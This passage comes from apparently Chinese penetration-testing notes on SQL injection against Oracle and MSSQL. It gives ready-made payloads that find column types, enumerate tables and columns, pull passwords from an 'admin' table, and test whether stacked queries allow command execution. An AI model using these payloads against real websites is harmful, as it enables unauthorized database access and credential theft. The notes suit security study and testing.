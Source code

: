 可以通过下面方法确定各个字段的类型。
`and 1=2 union select 'null',null,null,null,null,null from dual`
如此依次将下面的每个null用单引号替换，查看返回页面，返回正常说明那个字段为字符型。确定所有字段类型后就可以注入了， 是字符型的就用'null'，数字型的就直接null

### 2.3.2 必须跟FROM

Oracle的每个查询必须跟from，Oracle本身有个虚拟表dual，测试的时候可以使用。

# 3 MSSQL

SQLserver也有点玄学，每个版本的系统内置表不一样，测试的时候很蛋疼。并且SQLserver的使用者参差不齐，网上回答很乱，有时间自己装上各个版本再专门总结。

## 3.1 常用信息及语句

数据库版本： 
`select @@VERSION`

数据库名： 
`select db_name()`

数据库ip地址： 
`select local_net_address from sys.dm_exec_connextions where Session_id=@@spid`

暴当前表中的列：

```
article.asp?id=6 group by admin.username having 1=1--
article.asp?id=6 group by admin.username,admin.password having 1=1--
```

暴任意表和列：

```
and (select top 1 name from (select top N id,name from sysobjects where xtype=char(85)) T order by id desc)>1
and (select top col_name(object_id('admin'),N) from sysobjects)>1
```

暴数据库数据：

```
and (select top 1 password from admin where id=N)>1
```

## 3.2 报错注入

MSSQL一般使用类型转换导致的报错注入

![img](https://ws2.sinaimg.cn/large/006tNc79ly1fill2eyo0qj31fs0fagpr.jpg)

## 3.3 执行命令

`;declare @d int` //是否支持多行

如果支持多行语句执行并且是sa权限可以直接执行系统命令。
